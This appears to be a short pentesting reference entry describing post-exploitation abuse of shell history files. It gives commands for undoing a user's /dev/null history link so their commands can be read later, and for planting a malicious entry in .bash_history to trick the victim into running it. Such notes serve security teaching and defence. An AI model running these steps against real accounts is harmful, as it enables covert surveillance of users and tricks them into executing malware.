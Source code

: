 ```yaml
---
title: Bash History Attack
description: If an attacker can login as victim user in system, he can exploit the bash history in the victim home directory.
tags:
    - Post Exploitation
    - Shell
refs:
date: 2023-07-24
draft: false
---
```


## Bash History Unveiling

**`.bash_history`** is commonly in user’s home directory. In order not to store the bash history, users can link **`/dev/null`** with this file as below.

```bash
# If victim uses bash...
ln -sf /dev/null ~/.bash_history

# If victim users zsh...
ln -sf /dev/null ~/.zsh_history
```

### Exploitation

If attackers can login as victim user, they can unlink **`/dev/null`** then allow the bash history to be stored. If **`HISTFILE`** variable does not appear in **`.bashrc`** or **`.profile`**, attackers can add this line in the file to store the bash history.

```bash
# If victim uses bash...
unlink ~/.bash_history ; touch ~/.bash_history
echo "HISTFILE=~/.bash_history" >> ~/.bashrc

# If victim uses zsh...
unlink ~/.zsh_history ; touch ~/.zsh_history
echo "HISTFILE=~/.zsh_history" >> ~/.zshrc
```

After rebooting the machine, the bash history will be stored in **`.bash_history`** file and attackers can see the history when logged in again. It may extract sensitive information.

<br />

## False Information Inserting

Attackers can easily insert arbitrary content into **`.bash_history`** as follow. 

```bash
# Assume `malicious` is exactly malicious binary.
echo "~/malicious" >> ~/.bash_history
```

When victim see the content of the **`bash_history`**, malicious command may be executed by the victim’s misunderstanding.
